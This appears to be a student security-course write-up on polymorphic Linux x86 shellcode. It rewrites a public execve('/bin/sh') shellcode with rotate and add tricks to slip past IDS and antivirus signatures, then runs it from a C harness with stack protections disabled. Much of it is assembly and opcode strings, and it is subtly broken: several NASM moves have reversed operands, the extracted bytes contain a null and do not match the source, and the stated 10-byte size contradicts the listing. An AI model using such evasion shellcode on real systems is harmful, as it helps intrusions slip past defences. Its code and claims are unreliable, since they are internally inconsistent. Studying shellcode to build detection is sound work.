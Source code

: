 # Assignment-VI - Polymorphic Shellcode

Challenge 01 - EXECVE modified version ( Reference : http://shell-storm.org/shellcode/files/shellcode-811.php )

Introduction
Polymorphism is the ability of an object to take on many forms. For pushing the value 0x6e69622f(nib/) into the stack will alert the IPS/AV. Instead we can go around the clock and push the dword 0x6e69622e and add a corresponding 0x00000001 so that it will be hard for the IDS/IPS/AV to detect the code for any possible execves.


### Challenge 1 : Analyzing Linux x86 execve("/bin/sh") - 28 bytes
http://shell-storm.org/shellcode/files/shellcode-811.php

This is an execve("/bin/sh") of 28 byte. Let's check the assembly code.

```
08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80
 ```
 
 So the modified code looks as follows :

 ```
global _start

section .text

_start:

xor    eax, eax      ; zero our eax
push   eax

; push   0x68732f2f

mov eax, 0xd0e65e5e
ror eax, 1                       ; shift the register by 1 to right
push eax

; push   0x6e69622f
add eax, 0x5f63300               ; add 5f63300 to eax register to push 6e69622f                                       
push eax

mov    esp,ebx
mov    eax,ecx
mov    eax,edx
mov    al,0xb
int    0x80

; End section for exit call
xor    eax,eax
inc    eax
int    0x80
 ```
 
 Here I have done two few changes to the code : 
 
 1) The eax register for both 0x68732f2f is first brought to it's original form by first ROR the register by left.
 2) For this research, I have used bit shift calculator and shifted the accumulator by 1.
 3) Use the same method, I have added ror by 1 to shift the register back to it's original form to perform execve.
 4) Next, I have added 5f63300 to the accumulated eax to achieve 6e69622f instead of directly pushing it to the register.
 
 Compile the code using the "./compile.sh execve-modified".
 
 Use the following objdump to retrieve the shellcode of the nasm file.
  ```
 objdump -d ./execve-modified|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
  ```
  
shellcode : "\x31\xc0\x50\xb8\x5e\x5e\xe6\xd0\xd1\xc8\x50\x05\x00\x33\xf6\x05\x50\x89\xdc\x89\xc8\x89\xd0\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

Now copy the obtained shellcode and provide it in the shellcode.c 
 ```
 #include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x50\xb8\x5e\x5e\xe6\xd0\xd1\xc8\x50\x05\x00\x33\xf6\x05\x50\x89\xdc\x89\xc8\x89\xd0\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

int main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
  ```

Compiling the shellcode using -z execstack ( gcc -fno-stack-protector -z execstack ) and run the shellcode file.

The observed size of shellcode : 10 bytes


